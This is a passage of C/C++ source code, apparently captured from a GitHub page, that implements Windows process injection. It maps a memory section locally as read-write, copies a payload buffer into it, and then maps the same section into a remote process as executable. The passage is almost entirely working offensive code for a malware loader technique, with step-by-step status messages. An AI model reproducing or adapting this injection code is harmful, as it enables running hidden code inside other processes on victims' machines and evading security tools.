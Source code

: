 ```
		return 0;
	}


	VOID * baseAddress = NULL;
	ULONG_PTR zeroBits = 0;
	SIZE_T viewSize = 0;
	

	printf("[*] Attempting to map view of new section to local process.\n");
	NTSTATUS mapView = NtMapViewOfSection_func(
		hSection,		//Section handle
		GetCurrentProcess(),	// process handle	// FFFFFFFF -> current process?
		&baseAddress,			// base address
		zeroBits,			// zero bits
		SIZE_T(4096),   //CommitSize,
		NULL,		//SectionOffset,
		&viewSize,         //ViewSize,
		ViewUnmap, //InheritDisposition,
		MEM_TOP_DOWN,           //AllocationType,
		PAGE_READWRITE       //Win32Protect
	);
	if (!NT_SUCCESS(mapView))
	{
		printf("[*] Error: NtMapViewOfSection_func failed with status %#x.\n", mapView);
		return -1;
	}

	printf("[*] Attempting to copy over payload.\n");
	RtlMoveMemory(baseAddress, payload, payload_len);
	printf("[*] Wrote bytes.\n");


	printf("[*] Attempting to map view of section to remote process.\n");


	VOID * remoteAddress = NULL;
	ULONG_PTR zeroBitsRemote = 0;
	SIZE_T viewSizeRemote = 0;

	printf("[*] Address of remote pointer is %p.\n", remoteAddress);
	NTSTATUS mapViewRemote = NtMapViewOfSection_func(
		hSection,		//Section handle
		processHandle,	// process handle
		&remoteAddress,			
		zeroBitsRemote,			// zero bits
		SIZE_T(4096),   //CommitSize,
		NULL,		//SectionOffset,
		&viewSizeRemote,         //ViewSize,
		ViewUnmap, //InheritDisposition,
		MEM_TOP_DOWN,           //AllocationType,
		PAGE_EXECUTE_READ       //Win32Protect
	);
	printf("[*] Address of remote pointer is %p.\n", remoteAddress);
	if (!NT_SUCCESS(mapViewRemote))
	{
		printf("[*] Error: NtMapViewOfSection_func on remote process failed with status %#x.\n", mapViewRemote);
		return 0;
	}


	DWORD tId = atoi(argv[2]);
```